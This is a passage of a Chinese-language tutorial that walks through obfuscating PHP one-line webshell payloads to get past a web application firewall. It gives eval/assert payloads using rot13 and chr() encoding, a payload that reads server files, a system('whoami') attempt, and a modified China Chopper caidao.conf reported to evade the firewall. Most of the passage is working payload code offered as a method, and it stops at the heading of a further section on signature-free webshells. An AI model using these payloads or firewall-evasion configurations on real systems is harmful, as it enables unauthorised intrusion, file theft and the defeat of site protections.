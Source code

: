 其中$one="assert",$three="base64_decode",$nihao="phpinfo()"以base64编码后的结果,结果无法成功执行phpinfo(),将chr去掉变成:

x=eval("echo 1;echo $_POST[nihao];")&amp;nihao=cGhwaW5mbygp,可以执行简单的echo,现在要想办法把$one和$three换成其他形式,其他不是chr组合的形式

5.尝试post换成如下数据[没有chr]:

```
x=eval("echo 1;$one='assert';$three='b'.'as'.'e'.(64).'_decode';@$one(@$three($_POST[nihao]));")
```

依然失败

6.尝试不用base64_decode,用rot13

```
x=eval(' assert(str_rot13("cucvasb()"))   ;')
```

可执行phpinfo()语句,尝试执行system("whoami"),如下:

```
x=eval(' assert(str_rot13("flfgrz("jubnzv")"))   ;')
```

执行失败,有可能是php禁用了命令执行函数或服务器开启了安全模式

7.考虑直接执行读文件php代码



```
x=eval('$filename ="../index.php";
$handle = fopen($filename, "r");
$contents = fread($handle, filesize ($filename));
print_r($contents);
fclose($handle);')
```

结果可以执行成功,只是控制起来不方便,每次要自己写php代码,尝试改chopper,将里面的关键处的base64_decode换掉

8.最新版本的菜刀可配置度较高,但仍然采用base64加密传输,在菜刀目录下有个caidao.conf利用下面两个特性更改&lt;PHP_BASE&gt;标签中的连接方法可过狗:

a)assert类型的webshell正常情况下只能执行一句话[一个分号内的内容],想让assert类型的webshell执行多句PHP代码,可借助eval执行多条命令

b)把base64_decode想办法混淆eg.将caidao.conf中的PHP_BASE改成如下内容:

```
eval('$a=chr(98).chr(97).chr(115).chr(101).chr(54).chr(52).chr(95).chr(100).chr(101).chr(99).chr(111).chr(100).chr(101);@eval($a("%s"));');
```

成功过狗

9.在waf阻拦下无法连接一句话chopper时,每种waf的阻拦规则不一样,可在新版chopper目录下放多个不同的可过waf的配置文件备用,一个caidao.conf不过狗时再用其他caidao.conf,有效配置为"caidao.conf"文件

<br>

**0x02 免杀无特征无关键字一句话**

**1. 用chr(%d)^chr(%d)代替上面的chr**

